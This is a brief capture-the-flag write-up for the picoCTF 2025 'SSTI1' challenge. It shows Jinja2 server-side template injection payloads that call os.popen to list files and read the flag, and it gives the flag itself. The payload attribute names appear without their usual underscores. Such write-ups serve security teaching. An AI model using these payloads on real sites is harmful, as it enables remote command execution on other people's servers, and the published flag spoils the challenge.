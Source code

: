 # SSTI1 - PicoCTF 2025 (Web Exploitation)

## Introduction
On starting an instance, we are given a website that announces anything that is inputted into it.

## Exploiting
We input `{{7*7}}` to check for Server Side Template Injection, which comes out to be true as `49` is announced.

Guessing the site to be running on the most commonly used `jinja2`.
Using `{{ self._TemplateReference__context.cycler.init.globals.os.popen('ls').read() }}`, we get all files in current directory which contains `flag`.

Then using `{{ self._TemplateReference__context.cycler.init.globals.os.popen('cat flag').read() }}`, we get the flag.

## Flag
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_5c985a9a}
